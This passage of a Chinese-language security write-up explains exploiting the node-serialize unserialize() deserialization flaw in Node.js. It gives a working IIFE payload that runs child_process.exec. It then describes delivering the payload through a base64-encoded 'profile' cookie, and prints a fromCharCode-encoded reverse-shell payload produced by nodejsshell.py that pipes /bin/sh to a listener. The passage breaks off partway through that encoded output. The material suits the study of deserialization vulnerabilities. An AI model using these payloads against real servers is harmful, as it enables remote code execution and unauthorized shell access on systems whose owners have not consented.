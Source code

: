 IIFE工作正常，但序列化失败。所以我试图在以前序列化的字符串的函数体后添加括号()。并将其传递给unserialize()函数，幸运的它成功了。所以我们有Exploit Payload：



```
{"rce":"_$$ND_FUNC$$_function (){n t
require('child_process').exec('ls /', function(error, stdout, stderr) {
console.log(stdout) });n }()"}
```

将它传递给unserialize()函数将导致代码执行。



```
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function
(){require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout)
});}()"}';
serialize.unserialize(payload);
```

演示：

[![http://p3.qhimg.com/t01dd75680836da78aa.png](https://p0.ssl.qhimg.com/t0187708caa10e2dd98.png)](https://p0.ssl.qhimg.com/t0187708caa10e2dd98.png)

现在我们知道我们可以利用node-serialize模块中的unserialize()函数。现在让我们来利用漏洞生成一个反向shell。



**Further Exploitation**

Web应用程序中的漏洞是它从HTTP请求中读取名为profile的cookie，对cookie值执行base64解码，并将其传递给unserialize()函数。由于cookie是不受信任的输入，攻击者可以制作恶意Cookie值以利用此漏洞。

我使用nodejsshell.py生成反向shell有效负载。



```
$ python nodejsshell.py 127.0.0.1 1337
[+] LHOST = 127.0.0.1
[+] LPORT = 1337
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,10
5,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,3
2,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,11
5,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,
49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,4
8,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103
,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,6
1,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,11
0,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,3
2,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,1
14,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,3
2,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,8
4,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32
,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,3
2,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,
83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,3
2,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,1
04,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114
,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,
32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,11
6,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,11
6,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,1
15,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,
41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,1
02,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,12
3,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68
,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,3
```